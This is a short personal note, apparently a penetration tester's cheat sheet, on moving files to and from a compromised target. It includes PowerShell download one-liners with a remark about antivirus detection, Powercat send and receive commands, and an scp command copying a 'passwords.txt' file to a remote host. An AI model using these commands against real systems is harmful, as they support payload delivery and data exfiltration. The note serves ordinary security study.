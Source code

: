 Transferring Files

# Services to Host Files on your System:

General Options:

# FTP:

Install pyftpdlib

- pip3 install pyftpdlib

Pure-ftpd

- sudo apt install pure-ftpd
- service pure-ftpd start

Run (-w flag allows anonymous write access)

- Python3 -m pyftpdlib -p 21 -w

# Web:

- Python3 -m http.server 443
- service apache2 start

# Powershell:

Raw (Will get flagged by AV/AMSI):

- powershell -c (New-Object Net.WebClient).DownloadFile('http://172.21.0.0:port/file', 'output-file'
- powershell -c Invoke-WebRequest -Uri "http://172.21.0.0" -OutFile "C:\\path\\file"

# Use Powercat:

Send File:
powercat -c 10.1.1.1 -p 443 -i C:\\inputfile
Recieve File:
powercat -l -p 8000 -of C:\\inputfile

# Linux:

scp:

- scp \[OPTION\] \[user@\]SRC\_HOST:\]file1 \[user@\]DEST\_HOST:\]file2

scp through ssh:

- scp -P 2322 passwords.txt remote_username@172.21.0.2:/remote/directory

scp remote file to local system:

- scp remote_username@172.21.0.2:/remote/file.txt /local/directory

# Services to allow you to upload files to your system from the target:

- SimpleHTTPServer Upload: https://gist.github.com/touilleMan/eb02ea40b93e52604938

id: b106972e6c2c4924a1c18862645e70ab
parent_id: 819fca2060d64809bbdac4fc93fdd86a
created_time: 2020-10-20T01:15:59.785Z
updated_time: 2022-04-20T15:58:08.130Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 1603156559785
user_created_time: 2020-10-20T01:15:59.785Z
user_updated_time: 2022-04-20T15:58:08.130Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1